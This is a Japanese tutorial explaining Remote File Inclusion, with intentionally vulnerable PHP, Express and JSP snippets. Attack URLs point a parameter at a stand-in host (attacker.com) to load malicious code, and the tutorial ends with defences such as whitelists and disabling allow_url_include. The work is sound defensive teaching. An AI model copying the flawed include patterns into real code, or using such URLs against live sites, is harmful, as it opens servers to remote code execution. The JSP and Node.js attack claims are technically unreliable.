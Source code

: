 **リモートファイルインクルード（Remote File Inclusion, RFI）脆弱性について**

### **概要**

リモートファイルインクルード（RFI）脆弱性は、Webアプリケーションが外部から指定されたファイルをサーバー上に読み込み、実行する際に発生する脆弱性です。攻撃者は、悪意のあるスクリプトを含む外部ファイルを指定することで、リモートサーバーから任意のコードを実行させることができます。この脆弱性は、特に動的にファイルを読み込む機能を持つWebアプリケーションにおいて見られ、サーバーの完全な乗っ取りやデータの漏洩など、深刻な影響をもたらすことがあります。

---

### **脆弱性を持つコードの例と攻撃手法**

#### **PHP**

**脆弱なコード例:**
```php
<?php
$page = $_GET['page'];
include($page);
?>
```

**攻撃手法:**
攻撃者は、`page`パラメータにリモートのURLを指定して、悪意のあるコードを含むファイルを読み込ませます。

```bash
http://example.com/vulnerable.php?page=http://attacker.com/malicious_code.php
```

このURLを実行すると、`attacker.com`にある`malicious_code.php`がサーバー上で実行され、攻撃者はリモートでコードを実行できるようになります。

#### **Python**

**脆弱性のあるコードの例は一般的に存在しない**：
Pythonの標準的なWebフレームワーク（Flask、Djangoなど）では、リモートファイルのインクルード機能がデフォルトでサポートされていないため、リモートファイルインクルード脆弱性が発生することは一般的にありません。

#### **Node.js（Express）**

**脆弱なコード例:**
```javascript
const express = require('express');
const app = express();
const http = require('http');

app.get('/load', (req, res) => {
    const file = req.query.file;
    http.get(file, (response) => {
        let data = '';
        response.on('data', (chunk) => {
            data += chunk;
        });
        response.on('end', () => {
            res.send(data);
        });
    });
});

app.listen(3000);
```

**攻撃手法:**
攻撃者が次のようなリクエストを送信することで、悪意のあるスクリプトを読み込ませることができます。

```bash
http://localhost:3000/load?file=http://attacker.com/malicious.js
```

このリクエストを実行すると、`attacker.com`にある`malicious.js`がサーバーで実行される可能性があります。

#### **Java（JSP）**

**脆弱なコード例:**
```java
<% 
String page = request.getParameter("page");
RequestDispatcher dispatcher = request.getRequestDispatcher(page);
dispatcher.include(request, response);
%>
```

**攻撃手法:**
攻撃者が次のようにリクエストを送信すると、リモートファイルを含むことができます。

```bash
http://example.com/vulnerable.jsp?page=http://attacker.com/malicious.jsp
```

これにより、攻撃者は`attacker.com`にある`malicious.jsp`をリモートで実行させることができます。

---

### **防止策**

1. **外部からのファイルインクルードを禁止**:
   - `include`や`require`、`RequestDispatcher`などの機能に対して、リモートURLを受け付けないように制限します。

   **PHPの例**:
   ```php
   ini_set('allow_url_include', '0');  // リモートファイルのインクルードを無効化
   ```

2. **入力のバリデーション**:
   - ユーザーからの入力を検証し、外部ファイルへの参照やパスが含まれていないことを確認します。また、ホワイトリスト方式で許可されたファイルのみを読み込むようにします。

   **PHPの例**:
   ```php
   $whitelist = ['home.php', 'about.php', 'contact.php'];
   if (in_array($page, $whitelist)) {
       include($page);
   } else {
       echo "Invalid page request.";
   }
   ```

   **Javaの例**:
   ```java
   List<String> allowedPages = Arrays.asList("home.jsp", "about.jsp", "contact.jsp");
   if (allowedPages.contains(page)) {
       RequestDispatcher dispatcher = request.getRequestDispatcher(page);
       dispatcher.include(request, response);
   } else {
       response.getWriter().write("Invalid page request.");
   }
   ```

3. **リモートファイルの取得制限**:
   - アプリケーションでリモートファイルを読み込む必要がない場合、リモートファイルの取得を完全に無効にします。

4. **フレームワークの機能を利用**:
   - ファイルのインクルード処理を行う場合、可能な限り安全なフレームワークやライブラリを使用し、自作のインクルード処理を避けることで、リスクを最小限に抑えます。

---

**まとめ**:
リモートファイルインクルード脆弱性は、サーバー側で任意の外部ファイルを実行できる非常に危険な脆弱性です。入力のバリデーション、リモートファイルのインクルードを無効化する設定、ホワイトリスト方式でのファイル読み込みなどの防止策を適用することで、この脆弱性を防ぐことができます。